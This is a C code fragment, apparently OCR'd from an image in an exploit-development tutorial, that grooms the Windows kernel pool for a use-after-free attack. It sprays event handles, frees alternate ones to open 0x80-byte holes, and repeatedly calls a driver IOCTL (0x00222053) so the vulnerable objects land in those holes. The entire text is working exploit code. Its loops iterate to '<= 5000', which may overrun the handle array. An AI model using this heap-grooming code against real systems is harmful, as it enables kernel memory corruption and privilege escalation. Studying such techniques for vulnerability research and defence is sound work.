 ```c
  // Spray 5000 objects to fill the new page
  for (int i = 0; i <= 5000; i++)
  {
    // Create the objects
    HANDLE tempHandle = CreateEventA(
      NULL,
      FALSE,
      FALSE,
      NULL
    );

    // Assign the handles to the array
    eventObjects[i] = tempHandle;
  }

  // Check to see if the first handle is a valid handle
  if (eventObjects[0] == NULL)
  {
    printf("[-] Error! Unable to spray CreateEventA objects! Error: 0x%lx\n", GetLastError());
    exit(-1);
  }
  else
  {
    printf("[+] Sprayed CreateEventA objects to fill holes of size 0x80!\n");

    // Close half of the handles
    for (int i = 0; i <= 5000; i += 2)
    {
      BOOL tempHandle1 = CloseHandle(
        eventObjects[i]
      );

      eventObjects[i] = NULL;

      // Error handling
      if (!tempHandle1)
      {
        printf("[-] Error! Unable to free the CreateEventA objects! Error: 0x%lx\n", GetLastError());
        exit(-1);
      }
    }

    printf("[+] Poked holes in the new pool page!\n");

    // Allocate UaF Objects in place of the poked holes by just invoking the IOCTL, which will call ExAllocatePoolWithTag for a UAF object
    // kLFH should automatically fill the freed holes with the UAF objects
    DWORD bytesReturned;

    for (int i = 0; i < 2500; i++)
    {
      DeviceIoControl(
        driverHandle,
        0x00222053,
        NULL,
        0,
        NULL,
        0,
        &bytesReturned,
        NULL
      );
    }
```